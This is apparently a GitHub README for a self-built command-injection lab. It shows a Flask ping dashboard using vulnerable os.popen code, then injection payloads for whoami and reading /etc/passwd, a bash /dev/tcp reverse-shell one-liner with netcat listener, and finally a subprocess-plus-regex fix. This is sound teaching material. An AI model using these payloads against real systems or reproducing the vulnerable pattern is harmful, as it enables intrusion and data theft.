

# Project: Intentional Command Injection Lab & Remediation

### Author: Hariom M G

## Category: Web Application Security / Pentesting

#### **Get the vulnerable docker machine here https://hub.docker.com/repository/docker/mghariom/cmd-injection-lab/general**

**Tech Stack**: Python (Flask), Docker, Kali Linux, Ubuntu Server

### 1. Executive Summary

This project demonstrates a common web vulnerability known as Command Injection (RCE). I developed a "Network Health Dashboard" that uses a backend ping utility. By intentionally leaving the input unsanitized, I demonstrated how an attacker can break out of the intended command to execute arbitrary code, steal system files, and establish a Reverse Shell. The project concludes with a transition to secure coding practices using Python's subprocess module and Regex validation.

### 2. Infrastructure Setup

To ensure a safe and realistic environment, I built a segmented lab using VirtualBox:

**Target Machine**: Ubuntu Server running a containerized Flask application.

**Attacker Machine**: Kali Linux (Rolling Edition).

**Networking**: Host-Only adapter for SSH management and a NAT Network for internal attack traffic.

**Deployment**: The application is containerized using Docker to ensure environment isolation and easy reproducibility.

### 3. The Vulnerability (The "Before")

The initial version of the application used the os.popen() function. This function invokes a system shell to execute commands, which is highly dangerous when combined with unvalidated user input.

Vulnerable Code Snippet

```Python
# VULNERABLE: The shell interprets metacharacters like ; | &

target = request.form.get('target')

command = f"ping -c 4 {target}"

result = os.popen(command).read()
```

### 4. Exploitation Walkthrough (Red Team)

**Step 1**: Fingerprinting & RCE

By appending a semicolon (;), I instructed the server to finish the ping command and immediately start a new one.

_Payload_: 127.0.0.1; whoami

_Result_: The web page displayed the output of the whoami command, confirming Remote Code Execution.

**Step 2**: Data Exfiltration

I leveraged the vulnerability to read sensitive system configuration files.

_Payload_: 127.0.0.1; cat /etc/passwd

**Step 3**: Establishing a Reverse Shell

I used a Bash one-liner to force the container to connect back to my Kali machine, giving me a full interactive terminal.

_Kali Listener_: nc -lvnp 4444

_Payload_: 127.0.0.1; bash -c 'bash -i >& /dev/tcp//4444 0>&1'



### 5. The Remediation (The "After")

To secure the application, I implemented Defense-in-Depth using two layers of protection:

**Layer 1**: Secure API Selection

I replaced os.popen() with subprocess.check\_output(). By passing arguments as a List and ensuring shell=False, the operating system treats user input as a literal string, not an executable command.

**Layer 2**: Input Validation (Allow-listing)

I added a Regular Expression (Regex) to ensure the input only contains numbers and dots, preventing Argument Injection.

Patched Code Snippet

```Python

import subprocess

import re

\# Validation: Only allow digits and dots

if not re.match(r"^\[0-9.\]+$", target):

result = "Invalid characters detected!"

else:

# Secure execution: shell=False (default)

result = subprocess.check_output(

["ping", "-c", "4", target],

stderr=subprocess.STDOUT,

text=True

)
```

### 6. Verification of Fix

After redeploying the patched container, I attempted the previous exploits.

_Attempt_: 127.0.0.1; whoami

_Result_: The application blocked the input via the Regex filter, and even if bypassed, the subprocess module would have treated the string ; whoami as a non-existent IP address rather than a command.

### 7. How to Run This Lab

**Clone the Repo**: git clone git@github.com:mgHariom/command-injection-lab.git

**Build Image**: docker build -t ping-lab .

**Run Container**: docker run -d -p 5000:5000 --name ping-container ping-lab

**Access**: Open http://localhost:5000 in your browser.

### 8. Lessons Learned

**Avoid System Shells**: Never use functions that invoke /bin/sh or cmd.exe on user-supplied data.

**Principal of Least Privilege**: Running the app inside a Docker container limited the impact of the exploit, preventing direct access to the Ubuntu host files.

**Trust but Verify**: Always validate input against a strict "allow-list" rather than trying to "deny-list" specific bad characters.

#### **Final Project Status**: SECURED ✅
